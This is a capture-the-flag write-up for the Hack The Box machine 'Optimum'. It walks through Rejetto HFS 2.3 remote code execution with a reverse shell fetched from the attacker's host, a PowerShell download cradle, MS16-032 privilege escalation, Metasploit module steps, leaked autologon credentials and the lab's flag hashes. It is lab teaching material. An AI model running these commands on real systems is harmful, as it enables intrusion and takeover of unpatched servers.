 ### IP
`10.10.10.8`

# Recon

### nmap
`nmap -sC -sV 10.10.10.8 -o Optimum.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-23 18:54 EST
Nmap scan report for 10.10.10.8
Host is up (0.051s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds


```
* This looks very minimal... just port 80
	* When we look on the website, we can see a link to [HttpFileServer 2.3](http://www.rejetto.com/hfs/), which takes us to Rejetto's website



# Exploitation

## 1. Manual
* When we look up the server name, we can see that it allows for remote code execution.
* Look [here](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287) for reference
* Apparently the webapp does a regex on inputs to remove any syntax that might indicate a command
	* However, we can bypass that by using a nullbyte (%00), which ends the line
* Looking at the rejetto [commands list](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands) we can see that we can run commands with `{.exec|<command>.}
* Let's try to upload a reverse shell
* Run `searchsploit -m searchsploit -m windows/remote/39161.py` to download the exploit
* The program says we need to set up an http server with nc.exe on port 80
	* We can get nc.exe by running `locate nc.exe` and then `cp /usr/share/windows-resources/binaries/nc.exe .`
	* We can set up the server by running `python -m SimpleHTTPServer 80`
* The code also says we need to change our local IP and port, so let's do that
	* My tun0 ip is `10.10.14.12` and I picked the port `8888`

* Now we can set up a nc listener with `nc -lnvp 8888`
* In another window, we can run the python script with `python 39161.py 10.10.10.8 80`

* This gives us a shell
	* However, running `whoami` tells us we're not admin

* Running `systeminfo` gives us the following information:
```
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          30/11/2020, 1:12:08 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 2.954 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.170 MB
Virtual Memory: In Use:    1.333 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
* We're currently on `Microsoft Windows Server 2012 R2 Standard`
* To figure out what to privesc, let's use winpeas
	* If we have winpeas in the directory of our python file server, we can download it to the machine with the following command:
	* `Powershell (New-Object Net.WebClient).DownloadFile('http://10.10.14.12/winPEAS.exe', 'winPEAS.exe')`
		* Thanks to [this](https://stackoverflow.com/questions/4619088/windows-batch-file-file-download-from-a-url) post for the code
		* Apparently this only works with powershell 2.0, which is what's on this machine


* Running `winPEAS.exe` get's us some interesting stuff:
```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*
```
* Unfortunately, this isn't too useful to us, as we're already logged in as kostas

* Let's take a look at the [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* First, we can put our `systeminfo` output into a file called `sysinfo.out`
* Next, update the exploit database by running `./windows-exploit-suggester --update`
* Now run the code with `python windows-exploit-suggester.py -i sysinfo.out -d 2020-11-23-mssb.xls`
```
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
```
* This looks promising. Let's download it with `searchsploit -m windows/local/39719.ps1`
* We can get it on the machine just like last time: `Powershell (New-Object Net.WebClient).DownloadFile('http://10.10.14.12/39719.ps1', 'exp.ps1')`
* Now run the exploit with `.\exp.ps1`

## 2. Metasploit

* Because we know that we have a 2.3 rejetto server, let's look for that
1. `msfconsole`
2. `search rejetto`
3. `use exploit/windows/http/rejetto_hfs_exec`
4. `options`
5. `set RHOST 10.10.10.8`
6. `set LHOST tun0`
7. `run`
8. `bg` to put the session into the background
9. `use post/multi/recon/local_exploit_suggester` to view privesc options
10. `set SESSION 1`
11. `set SHOWDESCRIPTION true`
12. `run`
13. `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
14. `options`
15. `set SESSION 1`
16. `set LHOST tun0`
17.  `run`

* We're in!

## Getting the flags
* We can write `more user.txt.txt` to get the user flag: `d0c39409d7b994a9a1389ebf38ef5f73`


* We can cd to `C:\Users\Administrator\Desktop>` and run `more root.txt` to get the root flag: `51ed1b36553c8461f4552c2e92b3eeed`
